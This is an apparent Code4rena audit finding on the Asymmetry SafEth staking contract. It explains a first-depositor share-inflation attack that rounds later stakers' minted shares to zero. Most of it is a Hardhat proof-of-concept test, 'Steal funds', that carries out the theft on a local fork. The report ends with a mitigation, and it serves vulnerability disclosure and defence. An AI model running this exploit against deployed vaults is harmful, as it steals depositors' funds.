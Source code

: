 ## Tags

- bug
- 3 (High Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- H-01

# [An attacker can manipulate the preDepositvePrice to steal from other users.](https://github.com/code-423n4/2023-03-asymmetry-findings/issues/1098) 

# Lines of code

https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L79
https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L98


# Vulnerability details


## Impact

The first user that stakes can manipulate the total supply of sfTokens and by doing so create a rounding error for each subsequent user. In the worst case, an attacker can steal all the funds of the next user.

## Proof of Concept

When the first user enters totalSupply is set to 1e18 on [L79](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L79):
```solidity
if (totalSupply == 0)
            preDepositPrice = 10 ** 18; // initializes with a price of 1
        else preDepositPrice = (10 ** 18 * underlyingValue) / totalSupply;
```
But the user can immediately unstake most of his safETH such that totalSupply <<  1e18. The attacker can then transfer increase the underlying amount by transferring derivative tokens to the derivative contracts. 

For subsequent users, the preDepositPrice will be heavily inflated and the calculation of mintAmount on [L98](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L98):
```solidity
uint256 mintAmount = (totalStakeValueEth * 10 ** 18) / preDepositPrice;
```
can be very inaccurate. In the worst case it rounds down to 0 for users that deposit value that is less than the value that the attacker transferred in. 

In the following POC the attacker steals all of the second user's deposit. The attacker first deposits 100 ETH and immediately removes all but 1 wei. The attacker then transfers 10 wsETH to the WstEth contract. When the second user enters with 1.5 ETH no additional safETH are minted since the minAmount is rounded down to 0. The attacker has all of the safTokens and can withdraw 100% of deposits.


Create a new test file with the following content to run the POC.
```solidity
import { SafEth } from "../typechain-types";

import { ethers, upgrades, network } from "hardhat";
import { expect } from "chai";
import {
  getAdminAccount,
  getUserAccounts,
  getUserBalances,
  randomStakes,
  randomUnstakes,
} from "./helpers/integrationHelpers";
import { getLatestContract } from "./helpers/upgradeHelpers";
import { BigNumber } from "ethers";

import ERC20 from "@openzeppelin/contracts/build/contracts/ERC20.json";
import { RETH_MAX, WSTETH_ADRESS, WSTETH_WHALE } from "./helpers/constants";

describe.only("SafEth POC", function () {
  let safEthContractAddress: string;
  let strategyContractAddress: string;
  // create string array
  let derivativesAddress: string[] = [];
  let startingBalances: BigNumber[];
  let networkFeesPerAccount: BigNumber[];
  let totalStakedPerAccount: BigNumber[];

  before(async () => {
    startingBalances = await getUserBalances();
    networkFeesPerAccount = startingBalances.map(() => BigNumber.from(0));
    totalStakedPerAccount = startingBalances.map(() => BigNumber.from(0));
  });

  it("Should deploy the strategy contract", async function () {
    const safEthFactory = await ethers.getContractFactory("SafEth");
    const strategy = (await upgrades.deployProxy(safEthFactory, [
      "Asymmetry Finance ETH",
      "safETH",
    ])) as SafEth;
    await strategy.deployed();

    strategyContractAddress = strategy.address;

    const owner = await strategy.owner();
    const derivativeCount = await strategy.derivativeCount();

    expect(owner).eq((await getAdminAccount()).address);
    expect(derivativeCount).eq("0");
  });

  it("Should deploy derivative contracts and add them to the strategy contract with equal weights", async function () {
    const supportedDerivatives = ["Reth", "SfrxEth", "WstEth"];
    const strategy = await getLatestContract(strategyContractAddress, "SafEth");

    for (let i = 0; i < supportedDerivatives.length; i++) {
      const derivativeFactory = await ethers.getContractFactory(
        supportedDerivatives[i]
      );
      const derivative = await upgrades.deployProxy(derivativeFactory, [
        strategyContractAddress,
      ]);
      
      const derivativeAddress = derivative.address;
      derivativesAddress.push(derivativeAddress);

      await derivative.deployed();
      const tx1 = await strategy.addDerivative(
        derivative.address,
        "1000000000000000000"
      );
      await tx1.wait();


    }

    const derivativeCount = await strategy.derivativeCount();

    expect(derivativeCount).eq(supportedDerivatives.length);
  });

  it("Steal funds", async function () {


    const strategy = await getLatestContract(strategyContractAddress, "SafEth");
    const userAccounts = await getUserAccounts();
    let totalStaked = BigNumber.from(0);

    const userStrategySigner = strategy.connect(userAccounts[0]);
    const userStrategySigner2 = strategy.connect(userAccounts[1]);
    const ethAmount = "100"; 
    const depositAmount = ethers.utils.parseEther(ethAmount);
    totalStaked = totalStaked.add(depositAmount);
    
    const balanceBefore = await userAccounts[0].getBalance();
    const stakeResult = await userStrategySigner.stake({
      value: depositAmount,
    });

    const mined = await stakeResult.wait();
    const networkFee = mined.gasUsed.mul(mined.effectiveGasPrice);
    networkFeesPerAccount[0] = networkFeesPerAccount[0].add(networkFee);
    totalStakedPerAccount[0] = totalStakedPerAccount[0].add(depositAmount);

    const userSfEthBalance = await strategy.balanceOf(userAccounts[0].address);
    const userSfWithdraw = userSfEthBalance.sub(1);
   
    
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [WSTETH_WHALE],
    });
    const whaleSigner = await ethers.getSigner(WSTETH_WHALE);
    const erc20 = new ethers.Contract(WSTETH_ADRESS, ERC20.abi, userAccounts[0]);

    const wderivative = derivativesAddress[2];
    const erc20BalanceBefore = await erc20.balanceOf(wderivative);

    //remove all but 1 sfToken
    const unstakeResult = await userStrategySigner.unstake(userSfWithdraw);

    const erc20Whale = erc20.connect(whaleSigner);
    const erc20Amount = ethers.utils.parseEther("10");

    // transfer tokens directly to the derivative (done by attacker)
    await erc20Whale.transfer(wderivative, erc20Amount);

    // NEW USER ENTERS
    const ethAmount2 = "1.5"; 
    const depositAmount2 = ethers.utils.parseEther(ethAmount2);
      
    const stakeResu2lt = await userStrategySigner2.stake({
      value: depositAmount2,
    });

    const mined2 = await stakeResult.wait();
     
    // User has 0 sfTokens!
    const userSfEthBalance2 = await strategy.balanceOf(userAccounts[1].address);
    console.log("userSfEthBalance2: ", userSfEthBalance2.toString());

    // Attacker has 1 sfToken
    const AttakcerSfEthBalanc = await strategy.balanceOf(userAccounts[0].address);
    console.log("AttakcerSfEthBalanc: ", AttakcerSfEthBalanc.toString());
    
    //Total supply is 1. 
    const totalSupply = await strategy.totalSupply();
    console.log("totalSupply: ", totalSupply.toString());
    
    
  });

});
```


## Tools Used

vscode, hardhat

## Recommended Mitigation Steps


Base the underlying value on internal accounting so that it can not be manipulated by transferring directly to the derivative contract. 


